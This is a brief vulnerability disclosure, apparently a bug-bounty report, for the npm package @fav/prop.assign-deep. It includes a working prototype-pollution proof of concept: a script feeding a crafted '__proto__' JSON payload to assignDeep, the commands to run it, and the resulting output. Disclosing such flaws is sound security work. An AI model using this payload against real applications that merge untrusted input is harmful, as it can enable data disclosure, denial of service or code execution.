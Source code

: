 # Description

`@fav/prop.assign-deep` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var assignDeep = require('@fav/prop.assign-deep');

console.log("Before", {}.status)
assignDeep({}, JSON.parse('{ "__proto__" : { "status" : "polluted!" } }'));
console.log("After:", status);
```
2. Execute the following commands in the terminal:
```bash
npm i @fav/prop.assign-deep # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: polluted!
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE
